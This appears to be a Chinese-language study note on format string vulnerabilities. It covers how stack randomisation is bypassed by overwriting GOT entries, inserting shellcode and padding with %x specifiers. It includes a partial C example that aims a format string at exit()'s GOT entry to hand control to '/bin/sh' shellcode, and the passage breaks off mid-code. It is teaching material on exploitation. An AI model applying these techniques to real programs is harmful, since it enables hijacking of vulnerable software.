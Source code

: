 ### 国际化
- 格式字符串和消息文本通常被移动到由程序在运行时打开的外部目录或文件中
	* 攻击者可以通过修改这些文件的内容从而改动程序的格式和字符串的值
### 栈随机化
- 在Linux下，栈的起始地址为`0xC0000000`并且朝低内存方向增长
	* 随机化通过向栈中插入随机的间隙实现
	* 随机化加大了漏洞利用难度，但不能阻止漏洞利用
- 阻碍栈随机化
	* 覆写GOT入口或其他地址
		- 优势：独立于栈和堆这样的系统变量
	* 将shellcode插入到数据段或堆上的变量中
	* 参数指针和格式字符串的相对距离不变
		- 攻击者：找到参数指针与格式字符串的起始位置之间的距离，并插入适当数量的`%x`格式转换规范
	* 以双字格式写地址
		- 将一个shellcode的地址分成四次每次写入一个字节，各次调用之间对地址进行递增
		- 或者，每次写入一个字，甚至写入全部内容

- Linux利用若干例

    === "例1"

        ```c title="Linux 利用一例"
        #include <stdio.h>
        #include <string.h>

        int main(int argc, char * argv[]) {
            static unsigned char shellcode[1024] = "\x90\x09\x09\x09\x09\x09/bin/sh";
            int i;
            unsigned char format_str[1024];
            strcpy(format_str, "\xaa\xaa\xaa\xaa");
            strcat(format_str, "\xb4\x9b\x04\x08"); //(1)!
            strcat(format_str, "\xcc\xcc\xcc\xcc");
            strcat(format_str, "\xb6\x9b\x04\x08"); //(2)!
            for (i = 0; i < 3; i++) {
                strcat(format_str, "%x");
            }
            /* code to write address goes here */

            printf(format_str);
            exit(0);        //(3)!
        }
        ```

        1. `exit()`函数的GOT入口的地址(`0x08049bb4`)被连接到格式字符串
        2. 该地址被+2后(`0x08049bb6`)也连接到格式字符串
        3. 控制权被移交至shellcode

    === "例2"

        ```c title="Linux 覆写内存"
        static unsigned int already_written, width_field;
        static unsigned int write_word;
        static char convert_spec[256];
